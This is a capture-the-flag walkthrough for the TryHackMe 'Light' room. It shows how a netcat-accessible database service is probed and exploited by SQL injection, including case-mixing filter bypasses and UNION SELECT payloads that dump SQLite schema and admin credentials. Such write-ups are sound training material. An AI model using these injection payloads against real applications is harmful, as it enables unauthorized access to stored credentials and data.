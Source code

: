 # Light Walkthrough
<br/>

## Intro
Welcome to the Lookup challenge, here is the link to the [room](https://tryhackme.com/room/lightroom) on TryHackMe.

Here is the **story** context:

"I am working on a database application called Light! Would you like to try it out?  
If so, the application is running on **port 1337**. You can connect to it using `nc MACHINE_IP 1337`  
You can use the username `smokey` in order to get started."

Whenever you feel ready press on "Start Machine" and connect via OpenVPN from your machine or use the AttackBox.

Let't Begin

<br/>
<br/>

## The Challenge
Let's add the domain to the hosts file:
```bash
echo "MACHINE_IP light.thm " | sudo tee -a /etc/hosts
```

Scan for open ports:
```bash
rustscan -a light.thm  --ulimit 5000 -- -sV -sC
```

It finds port 22 and the provided 1337.

As per the intro, we connect to the application:
```bash
nc light.thm 1337
```

We get a welcome to the Light database and we are required to supply an username.
We use the username "smokey" and receive the message: `Password: vYQ5ngPpw8AdUmL`
 
If we try with a random string we get the error "Username not found."
Let's also try to send characters to see if we get any other interesting error `'`, this shows:
```
Error: unrecognized token: "''' LIMIT 30"
```

This means that the application is retrieving data from some type of SQL based database.
We can now test for SQLi, sending ` 'or1=1; -- -` got me another verbose error:
```
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```

So we find out that there is some filtering of our input, other tests also shows that keywords like `select` are forbidden but i was able to bypass that simply changing the capitalization like: `SelEct`.
Probably the filter evaluate the input string for an exact match of a list of forbidden keywords.

We also do not have any info about which of the SQL database is so i tempted to identify it following PortSwiggers examples [here](https://portswigger.net/web-security/sql-injection/examining-the-database)
But all 3 failed with errors like:
```
Error: no such table: v$version
Error: no such column: v$version
Error: no such function: version
```

Also we find that like `SELECT` also `UNION` is forbidden but can be easily bypassed like the previous one.

But this are only for MySQL, Oracle and PostgreSQL, there are more than those, so i searched for the command to get the version of the DB for others.
After testing another couple of them i got a version number with:
```sql
'unIOn SelEct sqlite_version()'
```

Via the message `Password: 3.31.1`, this means that we are inside a SQLite3 database.

Now let's find out the databases inside:
```sql
'unIOn SelEct (SelEct  group_concat(name, ', ') fRom pragma_database_list)'
```

We get 1 database called "main", now we wanna list the tables inside:
```sql
'unIOn SelEct group_concat(sql) fRom sqlite_master'
```

This prints:
```sql
 CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER),CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

We are interested in the "admintable", let's dump the content:
```sql
'unIOn SelEct group_concat(username, password) fRom admintable'
```

This successfully prints us the flag:
--> REDACTED_FLAG

The output was looking bad and the password got cut our, so we can either fix the previous query to print better the content or simply re run it asking only for the password:
```sql
'unIOn SelEct group_concat(password) fRom admintable'
```
--> REDACTED_PASSWORD

<br/>
<br/>

## Conclusion
Congratulations you have successfully exploited the SQL Injection vulnerability to get some sensitive data.

I hope you had fun doing the challenge and following along!

Catch you in the next CTF 😃 
